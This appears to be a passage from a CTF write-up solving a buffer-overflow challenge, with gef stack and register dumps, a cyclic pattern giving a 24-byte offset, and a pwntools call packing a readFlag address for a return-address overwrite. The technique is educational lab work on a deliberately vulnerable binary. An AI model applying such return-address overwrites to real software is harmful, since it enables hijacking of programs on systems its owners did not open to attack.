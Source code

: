hit `r` after we insert breakpoint to run the gdb

```code
stack
0x00007fffffffdac0│+0x0000: 0x00000000004005f0  →  <_start+0> xor ebp, ebp       ← $rax, $rsp, $rdi
0x00007fffffffdac8│+0x0008: 0x0000000000557755 ("UwU"?)
0x00007fffffffdad0│+0x0010: 0x00007fffffffdae0  →  0x0000000000000000    ← $rbp
0x00007fffffffdad8│+0x0018: 0x00000000004007ce  →  <main+46> mov eax, 0x0
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"

registers
$rbp   : 0x00007fffffffdad0  →  0x00007fffffffdae0  →  0x0000000000000000
$rsi   : 0x00007fffffffb420  →  "your input: "
$rdi   : 0x00007fffffffdac0  →  0x00000000004005f0  →  <_start+0> xor ebp, ebp
$rip   : 0x000000000040074a  →  <vuln+40> mov eax, 0x0
```

if we look at the stack before input, the rip points to the return address of the vuln function. To run the readFlag function we must replace `0x000000000040074a` by readFlag address.

so try to use the `cyclic` or `pattern create` in gef to find the offset (we know its $24$ just to make sure)

```code
pattern create 24
aaaabaaacaaadaaaeaaafaaa
```

let's supply to our input

```code
stack
0x00007fffffffdac0│+0x0000: "aaaabaaacaaadaaaeaaafaaa"   ← $rax, $rsp, $r8
0x00007fffffffdac8│+0x0008: "caaadaaaeaaafaaa"
0x00007fffffffdad0│+0x0010: "eaaafaaa"   ← $rbp
0x00007fffffffdad8│+0x0018: 0x0000000000400700  →  <readFlag+41> sar DWORD PTR [rdx+0x20], 1
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"
```

before input `$rip : 0x40074a` now `$rip : 0x400700` we have successfully change from `4a` to `00` (because if we input $24$ character the $25$ character will be nullbytes which is \x00)

So arrange the payload with padding $24$ character and the readFlag address (remember we must change it to little endian first)

to change to little endian form you can use `pwntool`

```python
>>> import pwn
>>> pwn.p64(0x00000000004006d7)
b'\xd7\x06@\x00\x00\x00\x00\x00'
```
